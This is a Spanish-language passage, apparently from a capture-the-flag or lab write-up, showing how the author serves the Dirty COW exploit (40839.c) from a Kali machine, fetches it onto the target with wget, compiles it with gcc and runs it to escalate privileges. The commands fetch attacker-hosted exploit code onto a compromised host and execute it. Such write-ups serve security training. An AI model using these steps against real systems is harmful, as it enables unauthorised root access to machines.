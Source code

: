 El exploit esta realizado en C por lo que necesito compilarlo en la maquina objetivo y ejecutarlo desde ella. 

Para esto levanto un servidor en mi maquina kali con el comando:

```bash
python3 -m http.server 8080
```

![alt text](images/image-1.png)

y ahora desde la shell de la maquina objetivo me desplazo a una carpeta que tenga opciones de escritura, normalmente suele tenerlo tmp y lo descargo con el comando

```bash
wget 10.0.2.14:8080/40839.c
```

![alt text](images/image-2.png)

Ahora realizo la compilacion del exploit en la maquina objetivo con el comando:

```bash
gcc -pthread 40839.c -o dirty -lcrypt
```

Le damos permiso de ejecucion:

```bash
chmod +x dirty
```

Y ejecutamos el exploit con: `./dirty`

![alt text](images/image-3.png)
